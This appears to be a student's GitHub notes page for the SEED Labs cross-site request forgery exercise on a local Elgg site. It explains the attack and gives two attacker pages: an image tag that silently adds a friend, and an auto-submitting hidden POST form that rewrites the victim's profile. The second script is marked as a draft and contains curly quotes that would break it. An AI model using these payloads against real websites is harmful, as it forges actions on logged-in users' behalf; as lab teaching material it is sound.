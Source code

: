 # Cross site Request Forgery 

## Summary

#### Pre-Condition 
* Victim is logged in to the vulnerable website. 
* Attacker does social engineering, and victim has opened the attacker's website in the same browser. 

#### What happens ? 
* The attacker's website sends a HTTP request to the vulnerable website.  
* The request,technically, has the same origin as that of the victim website.Victim's browser is tricked and attaches the cookie alongwith the request. 
* Attacker is able to send the request to the vulnerable website on victim's behalf. 

## Useful Links:
* Seedlab Tasks, http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Web/Web_CSRF_Elgg/Web_CSRF_Elgg.pdf
* https://www.acunetix.com/websitesecurity/csrf-attacks/

## Seedlab Tasks:
Note : Students should create HTML pages and host them locally. Instructions about this is given in the PDF. 

#### Task 1 : CSRF attack using GET Request: Adding friends

```html
<html>
<body>
<h1> Hello World ! </h1>
<img src="http://www.csrflabelgg.com/action/friends/add?friend=42">
</body>
</html>
```

#### Task 2: CSRF attack using POST request:Changing Profile 
Note : This is a draft script. It has few issues. 

```html
<html>
<body>

<h1>Hello World test two ! </h1>


<script type="text/javascript">
   function post(url,fields)
   {
  //create a <form> element.
   var p = document.createElement("form");
   //construct the form
   p.action = url;
   p.innerHTML = fields;
   p.target = "_self";
   p.method = "post";
   //append the form to the current page.
   document.body.appendChild(p);
   //submit the form
   p.submit();
   }

function csrf_hack()
   {
   var fields;
   var victim_id=elgg.page_owner.guid;
   // The following are form entries that need to be filled out
   // by attackers. The entries are made hidden, so the victim
   // won’t be able to see them.
   fields += "<input type=’hidden’ name=’name’ value=’Samy’/>";
   fields += "<input type=’hidden’ name=’description’ value=’Samy is my Hero’ />";
   fields += "<input type=’hidden’ name=’accesslevel[description]’ value=’2’ />";
   fields += "<input type=’hidden’ name=’briefdescription’ value=’hello world /’>";
   fields += "<input type=’hidden’ name=’accesslevel[briefdescription]’ value=’2’/>";
   fields += "<input type=’hidden’ name=’location’ value=’’ />";
   fields += "<input type=’hidden’ name=’accesslevel[location]’ value=’2’ />";
   fields += "<input type=’hidden’ name=’guid’ value=’39’ />";
   var url = "http://www.csrflabelgg.com/action/profile/edit";
   post(url,fields);
  }

// invoke csrf_hack() after the page is loaded.
window.onload = function() { csrf_hack();}
</script>

</body>
</html>

```

